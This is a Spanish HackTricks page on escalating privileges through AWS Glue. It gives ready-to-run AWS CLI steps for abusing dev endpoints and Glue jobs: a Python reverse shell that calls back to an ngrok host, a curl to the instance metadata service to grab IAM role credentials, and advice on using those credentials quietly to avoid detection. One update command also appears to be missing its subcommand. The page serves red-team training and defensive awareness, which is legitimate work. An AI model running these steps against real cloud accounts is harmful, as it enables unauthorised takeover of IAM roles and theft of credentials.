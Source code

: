 # AWS - Escalada de Privilegios en Glue

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Los usuarios con estos permisos pueden **configurar un nuevo punto de desarrollo de AWS Glue**, **asignando un rol de servicio existente asumible por Glue** con permisos específicos a este punto de desarrollo.

Después de la configuración, el **atacante puede conectarse por SSH al instancia del punto de desarrollo**, y robar las credenciales IAM del rol asignado:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Para fines de sigilo, se recomienda utilizar las credenciales IAM desde dentro de la máquina virtual de Glue.

**Impacto potencial:** Escalada de privilegios al rol de servicio de Glue especificado.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Los usuarios con este permiso pueden **modificar un punto de desarrollo de Glue existente** clave SSH, **habilitando el acceso SSH a este**. Esto permite al atacante ejecutar comandos con los privilegios del rol adjunto al punto final:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de Glue utilizado.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Los usuarios con **`iam:PassRole`** combinado con **`glue:CreateJob` o `glue:UpdateJob`**, y ya sea **`glue:StartJobRun` o `glue:CreateTrigger`** pueden **crear o actualizar un trabajo de AWS Glue**, adjuntando cualquier **cuenta de servicio de Glue**, e iniciar la ejecución del trabajo. Las capacidades del trabajo incluyen ejecutar código Python arbitrario, que puede ser explotado para establecer un shell inverso. Este shell inverso luego se puede utilizar para extraer las credenciales de **IAM** del rol adjunto al trabajo de Glue, lo que lleva a un posible acceso no autorizado o acciones basadas en los permisos de ese rol:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de Glue especificado.

### `glue:UpdateJob`

Solo con el permiso de actualización, un atacante podría robar las credenciales IAM del rol ya adjunto.

**Impacto Potencial:** Escalada de privilegios al rol de servicio de Glue adjunto.

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

